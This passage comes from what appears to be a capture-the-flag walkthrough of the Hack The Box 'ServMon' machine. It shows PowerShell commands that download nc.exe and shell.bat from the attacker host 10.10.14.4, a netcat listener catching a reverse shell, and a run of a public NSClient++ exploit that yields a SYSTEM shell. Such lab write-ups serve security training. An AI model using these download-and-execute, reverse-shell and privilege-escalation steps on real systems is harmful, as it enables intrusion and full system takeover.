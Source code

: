 ```
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/nc.exe -outfile nc.exe
nadine@SERVMON c:\Temp>nc.exe
Cmd line:
```

Download file `shell.bat`

```
nadine@SERVMON c:\Temp>powershell wget 10.10.14.4/shell.bat -outfile shell.bat
nadine@SERVMON c:\Temp>shell.bat
```

> Setup listener on attacking machine


After run file shell.bat, I got reverse shell to confirm this work, let's do final step to get admin shell.

```
┌──(Hades㉿10.10.14.4)-[5.4:36.9]~/walkthrough/hackthebox/servmon
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 49681
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.
nadine@SERVMON c:\Temp>
```

### NSClient Script Exploitation

Using exploit `json/webapps/48360.txt` in python file `48360.py` and run it with knowed info.

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

```
┌──(Hades㉿10.10.14.4)-[3.5:41.0]~/walkthrough/hackthebox/servmon
└─$ python 48360.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'c:\Temp\shell.bat'
[!] Targeting base URL https://127.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: OQvYiexxJhGMF)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
[!] Timeout exceeded. Assuming your payload executed . . .
```

After wait a long time, I have system shell in the listener.

```
┌──(Hades㉿10.10.14.4)-[3.8:37.7]~
└─$ sudo nc -nvlp 443
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.184] 51227
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```